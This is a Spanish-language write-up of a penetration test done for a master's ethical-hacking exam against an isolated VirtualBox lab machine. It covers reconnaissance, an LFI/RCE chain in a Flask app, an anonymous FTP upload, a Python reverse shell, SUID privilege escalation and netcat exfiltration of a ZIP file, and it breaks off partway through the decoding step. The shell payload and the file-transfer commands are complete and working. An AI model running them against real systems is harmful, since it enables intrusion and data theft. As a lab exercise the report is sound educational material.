<h1 align="center">🏛️ Examen Final — Hacking Ético</h1>
<h2 align="center">Máster en Ciberseguridad · La Máquina de La Moncloa</h2>

<p align="center">
  
  
  
  
  
  
</p>

<p align="center">
  <b>Realizado por Gabriel Godoy Alfaro</b>
</p>

<p align="center">
  <i>
    Informe técnico de penetración sobre máquina objetivo en entorno aislado de VirtualBox.<br>
    Reconocimiento · Explotación · Escalada múltiple · Persistencia · Exfiltración
  </i>
</p>

---

> [!WARNING]
> **Aviso Legal y Ético.** Todo el contenido de este informe tiene fines estricta y exclusivamente académicos,
> enmarcado en el contexto del examen final del módulo de Hacking Ético del Máster en Ciberseguridad.
> Las técnicas documentadas han sido operadas únicamente sobre infraestructura propia aislada en VirtualBox,
> sin ningún tipo de conectividad con redes de producción o sistemas de terceros.
> El uso de estas metodologías fuera de un entorno autorizado es un delito tipificado en el artículo 197 del Código Penal español.

---

## 📑 Índice del Informe

1. [🗺️ Entorno y Configuración Inicial](#️-entorno-y-configuración-inicial)
2. [🔍 Fase I — Reconocimiento](#-fase-i--reconocimiento)
   - [Identificación de hosts en la red](#identificación-de-hosts-en-la-red)
   - [Escaneo de puertos (Fast Scan)](#escaneo-de-puertos-fast-scan)
   - [Análisis de servicios en profundidad](#análisis-de-servicios-en-profundidad)
3. [🧭 Fase II — Enumeración y Análisis de Superficie](#-fase-ii--enumeración-y-análisis-de-superficie)
   - [Inspección del servicio HTTP](#inspección-del-servicio-http)
   - [Fuzzing de directorios web](#fuzzing-de-directorios-web)
   - [Análisis del código fuente de la aplicación](#análisis-del-código-fuente-de-la-aplicación)
4. [💥 Fase III — Explotación (Acceso Inicial)](#-fase-iii--explotación-acceso-inicial)
   - [Acceso FTP anónimo y subida de payload](#acceso-ftp-anónimo-y-subida-de-payload)
   - [Ejecución remota de código vía LFI/RCE](#ejecución-remota-de-código-vía-lfirce)
   - [Reverse Shell — Obtención de acceso como www-data](#reverse-shell--obtención-de-acceso-como-www-data)
5. [⬆️ Fase IV — Escalada de Privilegios](#️-fase-iv--escalada-de-privilegios)
   - [Primera escalada horizontal: www-data → koldo (SUID pitoncito)](#primera-escalada-horizontal-www-data--koldo-suid-pitoncito)
   - [Análisis del chatlog y exfiltración de fotitos.zip](#análisis-del-chatlog-y-exfiltración-de-fotitozip)
   - [Descifrado del ZIP mediante esteganografía y CyberChef](#descifrado-del-zip-mediante-esteganografía-y-cyberchef)
   - [Segunda escalada horizontal: koldo → abalos (strings sobre imagen)](#segunda-escalada-horizontal-koldo--abalos-strings-sobre-imagen)
   - [Tercera escalada horizontal: abalos → pedro (SUID hola + inyección de variable)](#tercera-escalada-horizontal-abalos--pedro-suid-hola--inyección-de-variable)
   - [Escalada vertical: pedro → root (Crontab Hijacking)](#escalada-vertical-pedro--root-crontab-hijacking)
6. [🔒 Fase V — Persistencia](#-fase-v--persistencia)
7. [📋 Resumen Ejecutivo y Hallazgos](#-resumen-ejecutivo-y-hallazgos)

---

## 🗺️ Entorno y Configuración Inicial

El examen se realiza sobre un entorno completamente aislado en **VirtualBox**, con una red interna configurada en el rango `10.0.2.0/24`. La máquina atacante es **Kali Linux** y la máquina objetivo, denominada internamente **"moncloa"**, corre **Debian 13**.

El primer paso antes de comenzar cualquier operación de reconocimiento consiste en asegurarse de que la interfaz de red del atacante está correctamente configurada dentro del rango de la red de laboratorio.

```bash
sudo ip addr add 10.0.2.10/24 dev eth0
```

| Rol | Nombre | Sistema Operativo | IP |
|:---|:---:|:---:|:---:|
| 🗡️ **Atacante** | Kali Linux | GNU/Linux | `10.0.2.10` |
| 🎯 **Víctima** | moncloa | Debian 13 | `10.0.2.15` |

<p align="center">
  
</p>
<p align="center"><i>Comprobación de la configuración de red en la máquina atacante (Kali). Se confirma que eth0 tiene asignada la IP 10.0.2.10 dentro de la red de examen.</i></p>

---

## 🔍 Fase I — Reconocimiento

### Identificación de hosts en la red

Con la interfaz de red operativa, el primer movimiento es realizar un **escaneo de descubrimiento de hosts** sobre todo el rango de la red `/24`. El objetivo es localizar la máquina víctima entre los equipos levantados en el entorno de VirtualBox.

```bash
sudo nmap -sn 10.0.2.0/24
```

La salida del comando revela cinco hosts activos. Tras analizar los resultados, se identifican las máquinas de la infraestructura de VirtualBox y se descarta la propia máquina atacante. La candidata más probable a ser el objetivo es **10.0.2.15**, cuya huella MAC corresponde a una NIC virtual de Oracle VirtualBox —al igual que Kali—, diferenciándola del resto de equipos de red pertenecientes a la hypervisión de VirtualBox.

<p align="center">
  
</p>
<p align="center"><i>Escaneo de descubrimiento de hosts. Se identifican 5 equipos en la red, siendo 10.0.2.15 la candidata a máquina víctima por su huella de NIC virtual.</i></p>

---

### Escaneo de puertos (Fast Scan)

Con el objetivo identificado, se lanza un **escaneo agresivo de puertos** con rango completo `1-65535` en modo `SYN Stealth` y con velocidad elevada, guardando los resultados en formato `grepable` para facilitar el análisis posterior.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -v -n -Pn -oG recon_inicial.txt 10.0.2.15
```

El resultado es definitivo: la máquina objetivo tiene **tres puertos abiertos**:

| Puerto | Estado | Servicio |
|:---:|:---:|:---|
| **21/tcp** | 🟢 open | FTP |
| **22/tcp** | 🟢 open | SSH |
| **80/tcp** | 🟢 open | HTTP |

<p align="center">
  
</p>
<p align="center"><i>Escaneo rápido de puertos completo. Se confirman tres servicios activos: FTP (21), SSH (22) y HTTP (80). La máquina 10.0.2.15 queda validada como objetivo del examen.</i></p>

---

### Análisis de servicios en profundidad

Con los puertos localizados, se realiza un **escaneo profundo** sobre los tres puertos identificados: detección de versiones de servicio (`-sV`), ejecución de scripts NSE por defecto (`-sC`) y fingerprinting del sistema operativo (`-A`). Los resultados se almacenan en fichero de texto plano.

```bash
sudo nmap -p 21,22,80 -sV -sC -A -Pn -oN recon_detallado_puertos.txt 10.0.2.15
```

Este segundo escaneo revela información crítica para la planificación de la explotación:

- **Puerto 21 (FTP — vsftpd 3.0.5):** El servidor FTP permite **login anónimo** (`ftp-anon: Anonymous FTP login allowed`). Además, existe un directorio `uploads` accesible con permisos `drwxrwsr-x`, lo que indica que es **escribible** por cualquier usuario conectado como anónimo. Este es el primer vector de ataque claro.
- **Puerto 22 (SSH — OpenSSH 10.0p2):** Versión actualizada, sin CVEs conocidos explotables de forma trivial desde caja negra.
- **Puerto 80 (HTTP — nginx):** El servidor web expone un listado de directorio que incluye, de forma llamativa, el fichero **`app.py`** directamente accesible desde la raíz. Esto constituye una fuga de información sobre el backend de la aplicación.

<p align="center">
  
</p>
<p align="center"><i>Escaneo en profundidad — Sección FTP. Se destaca el login anónimo permitido y el directorio /uploads accesible con permisos de escritura (drwxrwsr-x). Es la primera vulnerabilidad crítica identificada.</i></p>

<p align="center">
  
</p>
<p align="center"><i>Escaneo en profundidad — Sección SSH y HTTP. El servidor nginx expone en su listado de directorio raíz el fichero app.py, revelando información sensible sobre el backend de la aplicación.</i></p>

---

## 🧭 Fase II — Enumeración y Análisis de Superficie

### Inspección del servicio HTTP

Con los puertos y servicios identificados, el siguiente paso es analizar manualmente la superficie de ataque del servicio web en el puerto 80. Se comprueba inicialmente la respuesta del servidor mediante una petición `curl` directa para obtener el listado de la raíz sin necesidad de navegador.

```bash
curl 10.0.2.15:80
```

El servidor nginx muestra un **listado de directorio abierto** (directory listing) con tres entradas relevantes: los directorios `backup/` y `files/`, y el fichero `app.py`. Se lanza Firefox para navegar visualmente por la estructura y confirmar que es posible navegar libremente entre directorios desde la interfaz web.

<p align="center">
  
</p>
<p align="center"><i>Petición curl al servidor web. El directory listing está activado en nginx, exponiendo la estructura de directorios de la aplicación directamente al atacante: /backup, /files y el fichero app.py.</i></p>

<p align="center">
  
</p>
<p align="center"><i>Navegación visual con Firefox. Se confirma que el directory listing permite navegar libremente por /backup, /backup/uploads y /files sin ningún tipo de autenticación.</i></p>

---

### Fuzzing de directorios web

A continuación se realiza un **fuzzing activo de directorios** con `gobuster` para detectar rutas ocultas no enlazadas en el listado visible. Se realizan dos pasadas: una inicial con la wordlist básica de `dirb` para una respuesta rápida, y una segunda con extensiones específicas (`php`, `txt`, `py`, `sh`, `html`) y una wordlist más extensa de `dirbuster`.

```bash
# Primera pasada — wordlist básica
gobuster dir -u http://10.0.2.15 -w /usr/share/wordlists/dirb/common.txt

# Segunda pasada — con extensiones y wordlist media
gobuster dir -u http://10.0.2.15 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,py,sh,html
```

El fuzzing no revela directorios ocultos adicionales más allá de los ya visibles (`/backup` y `/files`). Sin embargo, confirma que **`app.py` está accesible directamente** bajo la raíz del servidor. La ausencia de rutas ocultas adicionales indica que el vector de ataque principal está en el servicio FTP y en el mecanismo de ejecución de la aplicación Python.

<p align="center">
  
</p>
<p align="center"><i>Fuzzing activo con Gobuster. La wordlist básica confirma únicamente /backup y /files. No se encuentran rutas ocultas adicionales; el árbol de directorios visible es completo.</i></p>

---

### Análisis del código fuente de la aplicación

El hallazgo más relevante de la fase de enumeración es el fichero `app.py`, expuesto públicamente en el servidor web. Su análisis revela la lógica interna de la aplicación Flask que corre en el puerto **8055** de la víctima.

```python
# Extracto clave de app.py
@app.route('/')
def index():
    page = request.args.get('page', 'none')
    
    if page == 'none':
        return redirect('/?page=hello_world.html')
    
    try:
        file_path = f"files/{page}"
        
        # Si el fichero es un script Python, lo EJECUTA y devuelve el output
        if page.endswith('.py'):
            result = subprocess.run(
                ['python3', file_path],
                capture_output=True, text=True, check=True
            )
            return render_template_string(result.stdout)

        # Si no, lee y renderiza su contenido
        with open(file_path, "r") as f:
            content = f.read()
        return render_template_string(content)
```

El análisis del código expone **dos vulnerabilidades críticas encadenadas**:

1. **Local File Inclusion (LFI):** El parámetro `?page=` acepta rutas relativas sin restricción, permitiendo atravesar directorios con `../` para acceder a ficheros fuera de `files/`.
2. **Remote Code Execution (RCE):** Si el fichero referenciado tiene extensión `.py`, la aplicación lo **ejecuta directamente** con `python3` y devuelve su salida. Esto convierte cualquier script Python que podamos subir al servidor en código ejecutable de forma remota.

La cadena de ataque queda definida con claridad: **subir un script Python malicioso por FTP** al directorio `uploads` (accesible de forma anónima y con permisos de escritura), y luego **ejecutarlo remotamente** a través de la vulnerabilidad LFI/RCE de `app.py` usando el parámetro `?page=../backup/uploads/script.py`.

<p align="center">
  
</p>
<p align="center"><i>Análisis de app.py. El código es explícito: cualquier fichero .py referenciado vía ?page= es ejecutado por python3. Combinado con la traversal de directorios, se define el vector de explotación completo.</i></p>

---

## 💥 Fase III — Explotación (Acceso Inicial)

### Acceso FTP anónimo y subida de payload

Con el vector de ataque definido, el primer paso de la explotación consiste en **verificar la escritura en el directorio FTP** y subir un payload de prueba para validar el mecanismo de ejecución remota antes de comprometer el servidor con la reverse shell definitiva.

Se crea un script de prueba mínimo y se establece la conexión FTP con el usuario `anonymous`:

```bash
# Script de prueba — test.py
print('hola')
```

```bash
ftp 10.0.2.15
# Usuario: anonymous
# Contraseña: (vacía)
ftp> cd uploads
ftp> put ./test.py
```

<p align="center">
  
</p>
<p align="center"><i>Conexión FTP anónima establecida. El directorio /uploads está listado con permisos drwxrwsr-x, confirmando que cualquier usuario autenticado (incluso anonymous) puede escribir en él. Vector de subida de payload validado.</i></p>

<p align="center">
  
</p>
<p align="center"><i>Subida del script de prueba test.py al directorio /uploads vía FTP anónimo. El comando put completa la transferencia sin errores, confirmando permisos de escritura activos.</i></p>

---

### Ejecución remota de código vía LFI/RCE

Con `test.py` en el servidor, se procede a **verificar la ejecución remota** apuntando al fichero a través de la aplicación Flask en el puerto `8055`. La clave está en la traversal de directorios: el fichero reside físicamente en `backup/uploads/`, por lo que debe accederse con `../backup/uploads/test.py` desde la raíz `files/`.

```bash
curl "10.0.2.15:8055/?page=../backup/uploads/test.py"
# Respuesta esperada: hola
```

<p align="center">
  
</p>
<p align="center"><i>Comprobación visual de la RCE. Al acceder a /?page=../backup/uploads/test.py, la aplicación ejecuta el script Python y devuelve su salida (el texto "hola"). La cadena LFI+RCE queda confirmada.</i></p>

<p align="center">
  
</p>
<p align="center"><i>Confirmación de RCE mediante curl. La respuesta del servidor contiene el output del script Python ("hola"), validando que el servidor ejecuta de forma remota cualquier .py subido vía FTP. RCE confirmada.</i></p>

---

### Reverse Shell — Obtención de acceso como www-data

Con la cadena de explotación validada, se prepara la **reverse shell definitiva** en Python. Para garantizar interactividad completa —requisito imprescindible para poder ejecutar binarios SUID en fases posteriores—, se utiliza un payload que combina `os`, `pty` y `socket`.

> [!NOTE]
> Durante la primera jornada del examen se detectó que la reverse shell inicial era demasiado básica para ejecutar correctamente el binario `pitoncito` en fases posteriores. En la segunda jornada se sustituyó por una reverse shell completamente interactiva que solventa este problema.

El payload de reverse shell (guardado como `rvsperfe.py` y subido vía FTP) establece la conexión inversa con `pty.spawn` para obtener una TTY completamente funcional:

```python
import os, pty, socket
s = socket.socket()
s.connect(("10.0.2.10", 5555))
[os.dup2(s.fileno(), f) for f in (0, 1, 2)]
pty.spawn("sh")
```

En dos terminales simultáneas: el **Terminal 1** pone el listener en escucha con `nc`, y el **Terminal 2** lanza la ejecución remota mediante `curl`:

```bash
# Terminal 1 — Listener
nc -lvnp 5555

# Terminal 2 — Disparo del payload
curl "10.0.2.15:8055/?page=../backup/uploads/rvsperfe.py"
```

<p align="center">
  
</p>
<p align="center"><i>Segunda sesión FTP: subida del payload de reverse shell (rvsperfe.py). Se utiliza la segunda iteración del payload tras solucionar los problemas de interactividad de la versión inicial.</i></p>

<p align="center">
  
</p>
<p align="center"><i>Explotación en vivo. Terminal superior: curl dispara la ejecución remota del payload Python. Terminal inferior: nc recibe la conexión entrante desde la víctima. Acceso inicial obtenido como www-data@moncloa.</i></p>

**Acceso inicial conseguido.** El proceso de la aplicación Flask corre como `www-data`, por lo que el acceso obtenido es con ese usuario. La fase de post-explotación y escalada de privilegios comienza aquí.

```
www-data@moncloa:~/html$
```

---

## ⬆️ Fase IV — Escalada de Privilegios

Con acceso como `www-data`, el siguiente objetivo es **escalar privilegios** a través de toda la cadena de usuarios del sistema hasta alcanzar `root`. El camino, que se irá desvelando progresivamente, sigue la siguiente ruta:

```
www-data  →  koldo  →  abalos  →  pedro  →  root
```

### Reconocimiento del sistema como www-data

El primer paso de la post-explotación consiste en **mapear el sistema** para identificar usuarios, directorios accesibles y potenciales vectores de escalada.

```bash
cd /home && ls -lah
```

La inspección del directorio `/home` revela **cuatro usuarios** en el sistema: `abalos`, `koldo`, `pedro` y el directorio especial `shared-space` con permisos `rwxrwxrwx` (escribible y accesible para todos). Este último directorio es el punto de partida para la cadena de escalada.

<p align="center">
  
</p>
<p align="center"><i>Reconocimiento del directorio /home. Cuatro usuarios identificados: abalos, koldo y pedro (todos con permisos 700, inaccesibles desde www-data) y el directorio shared-space con permisos 777, accesible y crítico para la escalada.</i></p>

---

### Primera escalada horizontal: www-data → koldo (SUID pitoncito)

La inspección del directorio `shared-space` desvela los elementos clave para la primera escalada:

```bash
ls -lah /home/shared-space
```

```
-rw-rw---- 1 koldo  koldo    chatlog.log
drwxrwxrwx 6 nobody nogroup  .cositas
-r-sr-sr-x 1 koldo  koldo    pitoncito
```

El binario `pitoncito` tiene el **bit SUID activo** (`-r-sr-sr-x`) y pertenece a `koldo`. Esto significa que cualquier usuario que lo ejecute —incluyendo `www-data`— lo hará con el **UID efectivo de koldo**. El tipo de fichero y su comportamiento (abre un intérprete Python 3) permite abusar de esta situación para obtener una shell con identidad `koldo`.

<p align="center">
  
</p>
<p align="center"><i>Contenido de shared-space. Se identifican tres elementos: chatlog.log (pertenece a koldo, ilegible desde www-data), el directorio oculto .cositas (también oculto pero accesible por todos) y el binario pitoncito con bit SUID activo perteneciente a koldo — primera escalada horizontal localizada.</i></p>

> [!IMPORTANT]
> La reverse shell inicial era demasiado básica para soportar la ejecución interactiva de `pitoncito`. En la segunda jornada del examen se sustituyó por un payload completamente interactivo con `pty.spawn`, requisito imprescindible para que el intérprete Python de `pitoncito` pudiera operar correctamente.

<p align="center">
  
</p>
<p align="center"><i>Segunda jornada — nueva reverse shell. Se muestran simultáneamente: el código del payload interactivo actualizado, el curl que dispara la ejecución y el nc que recibe la conexión. El cambio era necesario para ejecutar pitoncito correctamente.</i></p>

Con la nueva reverse shell interactiva activa, se ejecuta `pitoncito` desde `/home/shared-space`. El binario abre un intérprete Python 3 con el UID efectivo de `koldo`. Aprovechando las capacidades del intérprete, se utiliza el módulo `os` para obtener una shell completa como `koldo`:

```python
# Dentro del intérprete Python de pitoncito
import os
os.setreuid(os.geteuid(), os.geteuid())
os.system("/bin/bash")
```

<p align="center">
  
</p>
<p align="center"><i>Primera escalada horizontal completada. La ejecución de pitoncito abre el intérprete Python con UID de koldo. Los comandos os.setreuid() y os.system("/bin/bash") abren una bash completamente funcional como koldo. Primera escalada conseguida.</i></p>

---

### Análisis del chatlog y exfiltración de fotitos.zip

Como `koldo`, ya es posible leer el fichero `chatlog.log` del directorio compartido. Su contenido es una **conversación privada entre koldo y abalos** que revela la existencia de un fichero ZIP cifrado y un mecanismo de descifrado basado en múltiple codificación.

```bash
cat /home/shared-space/chatlog.log
```

Los fragmentos más relevantes de la conversación:

```
[abalos] ¿La frase de siempre sigue funcionando?
[koldo] La línea rara al final (...) acaba en iguales.
[abalos] La pista es que no es una contraseña.
[koldo] ¿Cómo entro al zip?
[abalos] Usa la línea rara.
[koldo] ¿Pero qué es?
[abalos] 64-32-58-64-58-64.
```

<p align="center">
  
</p>
<p align="center"><i>Lectura del chatlog como koldo. La conversación entre abalos y koldo desvela: (1) la existencia de un ZIP cifrado en el home de koldo, (2) que la clave se obtiene de una cadena con apariencia de base64 localizada en un fichero txt dentro del directorio .cositas, y (3) el proceso de descifrado siguiendo el orden 64-32-58-64-58-64.</i></p>

La secuencia `64-32-58-64-58-64` corresponde a una cadena de operaciones de **codificación en capas**: Base64, Base32, codificación en base58, etc., en ese orden. El fichero con la pista se localiza en el directorio oculto `.cositas/peugeot/la_banda.txt`, cuya última línea contiene la cadena codificada.

El fichero `fotitos.zip` (ZIP cifrado con AES-256, método 99) se transfiere a la máquina atacante usando **netcat**, ya que el cifrado AES-256 del ZIP lo hace incompatible con herramientas estándar de descompresión de Kali sin la contraseña:

```bash
# En la máquina atacante — receptor
nc -lvnp 4321 > fotitos.zip

# En la víctima como koldo — emisor
nc 10.0.2.10 4321 < /home/koldo/fotitos.zip
```

<p align="center">
  
</p>
<p align="center"><i>Exfiltración del ZIP cifrado mediante netcat. Terminal izquierda: la máquina atacante (Kali) en modo receptor. Terminal derecha: koldo en la víctima envía el fichero. La transferencia completa confirma que fotitos.zip ha llegado correctamente a la máquina atacante.</i></p>

---

### Descifrado del ZIP mediante esteganografía y CyberChef

Con el ZIP en la máquina atacante y las pistas del chatlog, se procede a localizar la cadena codificada y descifrarla. La cadena se encuentra al final del fichero `la_banda.txt` en el directorio `.cositas/peugeot/`:

```bash
cat /home/shared-space/.cositas/peugeot/la_banda.txt
# [líneas en blanco]
# TGhwMnAyems5dU1mZ2s1RkdheHphVUwydThycFBOOXBBSEdxa3VXeTZSZmp1...==
```

<p align="center">
  
</p>
<p align="center"><i>Localización de la cadena codificada. El fichero la_banda.txt contiene decenas de líneas en blanco y, al final del todo, la cadena codificada que termina en "==". La extensión en iguales es característica de Base64.</i></p>

Siguiendo el orden de operaciones indicado en el chatlog (`64-32-58-64-58-64`) y usando **CyberChef** para aplicar las transformaciones en cadena, se obtiene la contraseña del ZIP:

